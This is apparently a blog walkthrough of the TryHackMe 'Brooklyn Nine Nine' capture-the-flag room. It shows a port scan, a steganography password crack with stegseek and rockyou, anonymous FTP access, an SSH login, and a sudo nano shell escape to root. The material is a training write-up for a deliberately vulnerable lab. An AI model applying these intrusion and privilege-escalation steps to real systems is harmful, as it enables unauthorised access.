 ```yaml
---

title: Walkthrough - Brooklyn Nine Nine
published: true
---
```


[https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)

* * *

## Hacking

```shell
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Visiting the website and viewing source get a nice comment ``<!-- Have you ever heard of steganography? -->`` lets check out the image

- ``wget http://10.10.30.68/brooklyn99.jpg``
- ``stegseek brooklyn99.jpg /usr/share/seclists/Passwords/rockyou.txt``

```shell
cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Don't get much else of the webserver. In the ftp logged in as anon we get another note.

```shell
cat note_to_jake.txt  
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Now we can login to ssh with holt's creds, and get the user flag

* * * 

## User Flag

- ``cat user.txt`` in holts home dir

* * * 

## Root Flag

```shell
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

- ``sudo nano``
- Ctrl+R Ctrl+X
- ``reset; sh 1>&0 2>&0``
- ``cat /root/root.txt``

* * * 